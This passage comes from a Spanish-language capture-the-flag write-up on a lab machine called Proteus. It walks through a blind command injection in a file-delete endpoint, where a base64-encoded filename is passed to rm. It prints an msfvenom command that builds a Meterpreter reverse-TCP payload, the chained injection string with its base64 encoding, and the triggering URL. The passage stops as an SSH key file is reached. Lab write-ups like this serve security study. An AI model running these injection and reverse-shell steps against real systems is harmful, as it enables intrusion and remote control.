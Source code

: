 ```
              $app->render('delete.twig.html', array('adminMessage' => $message  ));
            }
```

Pues la única comprobación que se realiza es que la decodificación BASE64 del parámetro pasado incluya el nombre del archivo existente. Si es así, se ejecuta el comando `rm` concatenando el *PATH* y el resultado de decodificar el nombre del archivo. **Inyección garantizada :)** . Sin embargo, no se muestra el resultado de la ejecución, así que la inyección se hace *a ciegas*.

# Meterpreter

Utilizando *msvenom* vamos a crear un ejecutable con *Meterpreter*. Lo subiremos a la página y trataremos de ejecutarlo.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.0.4 LPORT=10000 -f elf > meterpreter_reverse_tcp_172_16_0_4_10000.elf
```

Subimos también un *helloworld*, para poder borrarlo e inyectar el código que ejecute nuestro *meterpreter*.

El nombre del archivo asignado a *helloworld* es **59784639ec223.**
El nombre del archivo asignado a *meterpreter* es **59784659d583f.elf**

El comando completo que quiero que se ejecute es:

```
$ rm /home/malwareadm/samples/59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
                              -----------------------------------------------------------
```

Si la inyección funciona, debería obtener una sesión en *meterpreter*. Inicio *metasploit* y hago uso del módulo *exploit/multi/handler* con *LHOST=172.16.0.4* y *LPORT=10000*.

![Metasploit multi handler]({{ site.url }}/assets/proteus_metasploit_handler.png "Metasploit multi handler")

Codificamos en BASE64 lo subrayado:

```
TEXTO:  59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
BASE64: NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK
```

Iniciamos sesión con *malwareadm* y visitamos el enlace: `http://172.16.0.6/delete/NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK`

Y el resultado es...

![Sesión de Meterpreter]({{ site.url }}/assets/proteus_meterpreter_session.png "Sesión de Meterpreter")

# Clave SSH

Encontramos el siguiente archivo: */home/malwareadm/sites/proteus_site/PROTEUS_INSTALL*. Si miramos el contenido, aparece, entre otras, una clave para acceder vía SSH:
